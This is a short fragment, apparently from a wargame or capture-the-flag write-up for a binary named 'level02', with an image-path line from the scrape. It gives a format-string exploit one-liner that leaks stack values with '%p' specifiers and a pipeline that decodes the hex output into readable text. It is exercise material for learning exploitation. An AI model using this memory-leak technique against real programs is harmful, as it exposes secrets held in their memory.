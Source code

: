 python -c 'print "%22$p%23$p%24$p%25$p%26$p"' | ./level02

```bash
python -c 'print "%22$p%23$p%24$p%25$p%26$p"' | ./level02 | awk 'END {print $1}' | python -c "import sys; print(''.join([value.decode('hex')[::-1] for value in sys.stdin.read().strip().split('0x')]))"
```